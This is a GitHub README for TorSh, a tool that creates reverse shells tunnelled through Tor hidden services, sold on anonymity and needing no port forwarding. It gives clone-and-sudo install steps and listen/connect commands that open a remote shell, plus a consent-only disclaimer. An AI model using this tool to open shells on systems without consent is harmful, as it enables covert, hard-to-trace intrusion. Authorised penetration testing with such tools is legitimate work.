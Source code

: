 ![TorSh Logo](https://raw.githubusercontent.com/trhacknon/torsh/master/logo.png)

## About

TorSh is a tool that simplifies the creation of a reverse shell. It operates over [Tor](https://www.torproject.org/) network. This is great for anonymity and also helps with the setup. You don't need to do port forwarding or any other kind of presetup. It just works!

</p>

## Features

+ Creating reverse shell as a Tor hidden service
+ End to end Tor connection (no [Tor2Web](https://www.tor2web.org/) etc...)
+ No need for port forwarding
+ Easy & Quick to use!


## Installation

```
git clone https://github.com/trhacknon/torsh.git
cd torsh
chmod +x ./install.sh
sudo ./install.sh
```

## Example usage

#### Listen
```
torsh listen -p 5000
```

#### Connect
```
torsh connect <address> -p 5000
```


## Disclaimer

This tool is only for testing and can only be used where strict consent has been given. Do not use it for illegal purposes! It is the end user’s responsibility to obey all applicable local, state and federal laws. I assume no liability and are not responsible for any misuse or damage caused by this tool and software.
